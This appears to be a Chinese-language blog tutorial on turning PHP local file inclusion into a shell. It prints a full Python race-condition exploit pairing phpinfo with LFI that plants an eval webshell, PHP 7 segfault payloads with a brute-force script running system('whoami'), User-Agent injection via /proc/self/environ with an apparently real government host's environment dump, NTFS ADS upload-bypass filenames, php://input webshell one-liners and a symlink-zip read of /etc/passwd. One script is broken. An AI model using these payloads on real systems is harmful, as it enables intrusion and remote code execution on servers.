[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php临时文件存储过程.png)

比如说我 post 这样一个表单

```php
<!doctype html>  
<html>  
<body>  
    <form action="http://localhost/testphpinfo/phpinfo.php" method="POST" enctype="multipart/form-data">  
    <input type="file" name="file"/><br/>  
    <input type="submit" name="submit" value="Submit" />  
</form>  
</body>  
</html>
```

那么在 phpinfo 中就能发现下面的一项

```php
$_FILES["file"]    
Array
(
    [name] => test.txt
    [type] => application/octet-stream
    [tmp_name] => H:\wamp64\tmp\php1E81.tmp
    [error] => 0
    [size] => 201
)
```

**下面引用 p总 在 vulhub 中的详细介绍：**

https://github.com/vulhub/vulhub/tree/master/php/inclusion

在给PHP发送POST数据包时，如果数据包里包含文件区块，无论你访问的代码中有没有处理文件上传的逻辑，PHP都会将这个文件保存成一个临时文件（通常是/tmp/php[6个随机字符]），文件名可以在$_FILES变量中找到。这个临时文件，在请求结束后就会被删除。

同时，因为phpinfo页面会将当前请求上下文中所有变量都打印出来，所以我们如果向phpinfo页面发送包含文件区块的数据包，则即可在返回包里找到$_FILES变量的内容，自然也包含临时文件名。

在文件包含漏洞找不到可利用的文件时，即可利用这个方法，找到临时文件名，然后包含之。

但文件包含漏洞和phpinfo页面通常是两个页面，理论上我们需要先发送数据包给phpinfo页面，然后从返回页面中匹配出临时文件名，再将这个文件名发送给文件包含漏洞页面，进行getshell。在第一个请求结束时，临时文件就被删除了，第二个请求自然也就无法进行包含。

这个时候就需要用到条件竞争，具体流程如下：

发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据
因为phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大
php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接
所以，我们直接操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除
利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终getshell

下面是p 总的利用脚本，其中的有些地方我给出了简单的注释，方便大家理解


```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):                                   #所有的请求的内容
    TAG="Security Test"


    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG


    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD

    padding="A" * 5000


    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)

    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)


def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)                        #向phpinfo 发起请求
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")      #从偏移量中找关键字
        fn = d[i+17:i+31]                     
        #得到临时文件名（这个切片和系统有关，我在windows 下测试使用的是 d[i+17:i+39]）

    except ValueError:
        return None

    s2.send(lfireq % (fn, host))               #发起LFI请求
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:                     #找页面返回中我们之前设下的标志 TAG
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)                      #循环接受4096字节直到接收完毕
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i+10],i)   #进行试探得到文件名的偏移量
    # padded up a bit
    return i+256                             #为提高准确性扩大了范围           

def main():

    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

这样的利用方式实际上在 2001 年国外的安全研究人员就发现了，只不过因为条件苛刻很少用到

下面是我用这个脚本测试的例子

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/phpinfo tmp getshell.gif)

**下面是两个实际的例子**

**1.NU1L CTF 2018**

http://dann.com.br/php-winning-the-race-condition-vs-temporary-file-upload-alternative-way-to-easy_php-n1ctf2018/

**2.链家旗下自如某站一个有意思的文件包含到简单内网渗透**

http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0134185.html

**补充：思考关于临时文件的含义**

这个包含临时文件的思想不要仅仅局限于 php
自己产生的临时文件，其他服务也可能会有可控的临时文件，这个时候我们也可以选择包含这些临时文件，就比如我之前[这篇文章](http://www.k0rz3n.com/2018/11/19/一篇文章带你深入理解 XXE 漏洞/)说过的 上传的 jar ，我们一样也可以包含，于是我在 LCTF 2018 出了这一道题，具体细节可以看我的[这篇文章](http://www.k0rz3n.com/2018/11/19/LCTF 2018 T4lk 1s ch34p,sh0w m3 the sh31l 详细分析/)

##### 方式二：php7 Segment Fault

可以用php7 segment fault特性，向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留

利用`php://filter/string.strip_tags`导致php崩溃，同时可上传文件保存在**/tmp**目录来上传木马.

这种包含会导致php执行过程中出现segment fault，此时上传文件，临时文件会被保存在`upload_tmp_dir`所指定的目录下，不会被删除，这样就能达成getshell的目的。

```php
php < 7.2：php://filter/string.strip_tags/resource=/etc/passwd

php7 老版本通杀：php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA
```

利用脚本：

```php
import requests
from io import BytesIO
url="http://f325d633-efa0-4a8c-a61d-90fc70c9ea1d.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
payload="<?php phpinfo();?>"
files={
    "file":BytesIO(payload.encode())
}
r=requests.post(url=url,files=files,allow_redirects=False)

print(r.text)
```

这样生成临时文件之后，一般在临时文件目录，题目一般会配给一个dir.php之类的文件，方便列目录文件，拿到上传的临时文件名，但是要是没有呢？

假如没有`dir.php`还能利用吗，答案是可以的，因为我们传入的恶意文件没有被删除，这样我们就可以爆破这个文件的文件名。

在上面的讲述中，我们知道不同的系统默认的临时文件存储路径和方式都不一样

- Linux

```
Linux临时文件主要存储在`/tmp/`目录下，格式通常是（`/tmp/php[6个随机字符]`）
```

- windows

```
Windows临时文件主要存储在`C:/Windows/`目录下，格式通常是（`C:/Windows/php[4个随机字符].tmp`）
```

对比Linux和Windows来看，Windows需要破解的位数比Linux少，从而Windows会比Linux破解速度快，位数越长所需要耗费的时间就越大。

```php
#python version 2.7

import requests
from io import BytesIO

files = {
  'file': BytesIO('<?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/web/fi/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

########################暴力破解模块########################
url2='http://192.168.68.119/web/fi/index.php?file=C:/Windows/php'+{fuzz}+'.tmp&Qftm=system('whoami');'
data = fuzz
print "++++++++++++++++++++++"
print data
print "++++++++++++++++++++++"
########################暴力破解模块########################
```

对于暴力破解模块，可以自己添加多线程模块进行暴力破解，也可以将暴力破解模块拿出来单独进行fuzz，或者比较常用的做法就是将一些fuzz工具的模块拿出来添加到里面稍微改一下接口就可以直接使用。

#### **5./proc/self/environ**

通过本地文件包含漏洞,查看是否可以包含/proc/self/environ文件。然后**向User-Agent头中注入**PHP代码有可能会攻击成功。如果代码被成功注入到User-Agent头中，本地文件包含漏洞会利用并执行/proc/self/environ，这样就能得到你的shell

这里我说一下这个 self ，这个 self 不要以为就是 self 文件夹，实际上子目录/proc/self本身就是当前运行进程 PID，你会发现你每次请求得到的 self 都是不同的

**如图一：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/self1.png)此处输入图片的描述

**如图二：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/self2.png)此处输入图片的描述

从 Linux 内部去看的话，就是一堆数字命名的文件夹，还能看到有些是属于 root 的有些是属于 apache 的

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/self3.png)此处输入图片的描述

从上面的部分图你也能看到另一个问题，就是这个文件的读取需要一定的权限，至少 php 默认情况下是没法读取的，我们看一下这个文件的读取权限

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/environ 权限.png)

我还能说什么，只有文件所有者可读，且仅仅是可读，这就不是很好办了，就拿网上的例子说一下吧，这里仅仅提供一个思路，遇到能包含的情况随机应变

如果能成功包含，那么你可能会看到下面这样的结果：

```php
DOCUMENT_ROOT=/home/dprdicom/public_html/smscenter
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml xml,application/xml;
q=0.9,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_CONNECTION=keepalive
HTTP_HOST=smscenter.dprdbekasikota.go.id
HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:27.0) Gecko/20100101 Firefox/27.0
PATH=/bin:/usr/bin
PHPRC=/usr/local/lib/
QUERY_STRING=
page=../../../../proc/self/environ
REDIRECT_STATUS=200
REMOTE_ADDR=182.68.251.152
REMOTE_PORT=21007
REQUEST_METHOD=GET
REQUEST_URI=/?page=../../../../proc/self/environ
SCRIPT_FILENAME=/home/dprdicom/public_html/smscenter/index.php
SCRIPT_NAME=/index.php
SERVER_ADDR=103.28.12.130
SERVER_ADMIN= _NAME=smscenter.dprdbekasikota.go.id
SERVER_PORT=80
SERVER_PROTOCOL=HTTP/1.1
SERVER_ 
```

**注意这一段：**

HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:27.0) Gecko/20100101 Firefox/27.0 

找到了可控目标接下来就是在 UA 中注入我们的恶意代码，

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/UA注入.png)

然后就包含啦

#### **4.包含上传的文件**

有上传点是最好的了，上传的内容可以是任意的后缀名，不影响最终的结果。

这里有一些使用 NTFS ADS 文件流绕过检测的方法，值得大家参考

在测试中我们发现，如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析。假设我们需要上传的文件内容为：<?php phpinfo();?>下面是上传是会出现的现象：

```php
上传 Test.php:a.jpg     生成Test.php  文件内容为空

上传 Test.php::$DATA  生成test.php  文件内容为<?php phpinfo();?>

上传 Test.php::$INDEX_ALLOCATION  生成test.php文件夹

上传 Test.php::$DATA\0.jpg  生成0.jpg  文件内容为<?php phpinfo();?>

上传 Test.php::$DATA\aaa.jpg  生成aaa.jpg  文件内容为<?php phpinfo();?>

PS: 上传test.php:a.jpg的时候其实是在服务器上正常生成了一个数据流文件，可以通过notepad test.php:a.jpg查看内容，而test.php为空也是正常的。
```

#### **5.配置文件过滤不当**

有些时候配置信息是直接写在服务器端的文件中的，如果我们能够绕过这就是一个 webshell

这个也只是一个思路，只要是用户可控的内容往服务器上写，就存在包含的可能

#### **6.php 伪协议包含**

这个就可以说是利用 php 的特性了，当然部分伪协议，比如 php://input 你要用还是需要 allow_url_include 打开,**data:// 更是需要 php_url_fopen 和 php_uri_include 都打开**（由于 data://输入远程文件包含的范畴，于是我在前面的部分已经提及了）

##### **1.php://input**

php://input 是个可以访问请求的原始数据的只读流(这个原始数据指的是POST数据)

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php input.png)此处输入图片的描述

当然了，我们也能利用这个来执行命令，上传我们的一句话，直接 getshell,上菜刀

```php
http://localhost/qweasdzxc.php?rf=php://input 
POST :
<?php eval($_POST['cmd']);?>&cmd 
```


**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/getshell.png)

##### **3.phar://**

这个协议是仿照 Java 中的打包协议 Jar 弄出来的，他的特点就是能将任意后缀名的压缩包解包，得到里面指定的内容，这个方法在绕过后缀名限定的包含中非常好用

包含方法：

phar://aaa.bbb/shell.php 

具体可看：http://www.91ri.org/13363.html

**拓展知识：**

使用 phar:// 扩展 php 反序列化攻击面

**链接：**

https://paper.seebug.org/680/

##### **4.php://filter：**

这个是一个过滤器，里面的过滤方法很多，我们如果不想执行被包含的代码，我们就可以使用base64 编码输出，通常用来读取源码

php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定

resource=<要过滤的数据流>     这个参数是必须的，且必须位于 php://filter 的末尾，并且指向需要过滤筛选的数据流。 read=<读链的筛选列表>     该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。 write=<写链的筛选列表>     该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。 <；两个链的筛选列表>     任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。  

举两个最简单的例子：

**示例一：使用 php://filter/read=xxxx/resource=**

**测试代码：**

```php
<?php

if(array_key_exists("rf", $_GET)){
    $page = $_GET['rf'];
    if($page != ''){
        include($page);
    }
}
else{
    echo '<script>window.location.href = "./qweasdzxc.php?rf="</script>';
}


?>

<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    </head> 
    <body>
        <center>
            <h2>test page： rf=file_get_contents($input);</h2>
            <h3>----delete this page when the test has finished----</h3>
        </center>
    </body>
</html>
```

**实验截图：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php filter read.png)

**注意点：**

(1)记住一旦使用了 read 选项，我们就值关心数据流的来源，这里的数据流的来源就是 resource
传入的，至于经过过滤器以后这个数据流要去哪里，这不是我们这个处理能决定的，还要依赖外部的函数
(2)我们的过滤是按照过滤器从左到右的顺序进行的，不要错误地认为是从右到左

**示例二：使用 php://filter/write=xxxx/resource=**

**测试代码：**

```php
<?php

if(array_key_exists("rf", $_GET)){
    $page = $_GET['rf'];
    if($page != ''){
        file_put_contents($page,"hello world");
    }
}
else{
    echo '<script>window.location.href = "./qweasdzxc.php?rf="</script>';
}


?>

<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    </head> 
    <body>
        <center>
            <h2>test page： rf=file_get_contents($input);</h2>
            <h3>----delete this page when the test has finished----</h3>
        </center>
    </body>
</html>
```

**实验截图：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php filter write.png)

**注意点：**

(1)一旦使用了 write 选项，我们就只关系数据的输出，数据的输出就是我们指定的 resource
的文件，而数据的输入要靠外部的函数帮我们实现
(2)我们的过滤是按照过滤器从左到右的顺序进行的，不要错误地认为是从右到左

P 总在 2016 年讲过一个知识点 利用 php://filter bypass 死亡 exit 的方法，文章链接如下，我就不详细分析了

https://www.leavesongs.com/PENETRATION/php-filter-magic.html

但是这个方法的升级版也在 hitcon CTF 2018 One-line-php-challenge 中出现，这个方法是 Orange 的预期解法，可以看下面这个链接：

http://wonderkun.cc/index.html/?p=718

**那么有哪些过滤器呢？**

过滤器有很多种，有字符串过滤器、转换过滤器、压缩过滤器、加密过滤器

**(1)字符串过滤器**

```php
string.rot13      进行rot13转换 
string.toupper    将字符全部大写 
string.tolower    将字符全部小写
string.strip_tags 去除空字符、HTML 和 PHP 标记后的结果  
```

**(2)转换过滤器**

```php
convert.base64-encode  base64 编码
convert.base64-decode  base64 解码
convert.quoted-printable-encode  quoted-printable 编码（也是另一种将二进制进行编码的方案） 
convert.quoted-printable-decode  quoted-printable 解码 
convert.iconv 实现任意两种编码之间的转换 
```

**(3)压缩过滤器**

```php
zlib.deflate 压缩过滤器 
zlib.inflate 解压过滤器 
bzip2.compress 压缩过滤器 
bzip2.decompress 解压过滤器 
```

**(4)加密过滤器**

mcrypt.*  加密过滤器 mdecrypt.* 解密过滤器 

**一些实例：**

```php
readfile(“php://filter/resource=http://www.example.com");
readfile(“php://filter/read=string.toupper/resource=http://www.example.com");
readfile(“php://filter/read=string.toupper|string.rot13/resource=http://www.example.com");
file_put_contents(“php://filter/write=string.rot13/resource=example.txt”,”Hello World”);
```

**特别提一下这个过滤器convert.iconv**

这个过滤器能实现几乎任意的两种编码之间的转化

```php
php://filter/read=convert.iconv.UTF-8%2FASCII%2F%2FTRANSLIT/resource=... convert.iconv.ISO-8859-1/UTF-8 
php://filter/convert.iconv.UTF-8%2fUTF-7/resource= 
```

**实际案例：**

**(1) 案例一：**

国外的一个安全人员在一次 CTF 中发现，使用连续两种编码之间的转换能骗过 解析器误认为 flag 文件是 图片格式.可以看这个链接：https://gynvael.coldwind.pl/?lang=en&id=671

**(2) 案例二：**

hitcon CTF 2018 one-line-php-challenge wupco 师傅的非预期解法 writeup:https://hackmd.io/s/SkxOwAqiQ#

#### **7.软链接文件包含绕过open_basedir**

这个方法在不少漏洞中都出现过，比如 gitlab 的任意文件读取，在 CTF 中也出现过多次，具体的细节可以看[这篇文章](https://xz.aliyun.com/t/2589)，或者看一下 HCTF2018 hide and seek 这道题，这道题也是利用了这种手法实现的任意文件读取

我们首先构造一个指向 /etc/passwd 的软链接文件，看看能不能成功

root@K0rz3n:~# ln -s /etc/passwd test 

看一下软链接的指向 

```php
lrwxrwxrwx  1 root root     11 Nov 11 06:45 test -> /etc/passwd 
```

现在我们把这个文件进行压缩

```php
root@K0rz3n:~# zip -y test.zip test 
```

上传然后 submit 

**如图所示：**

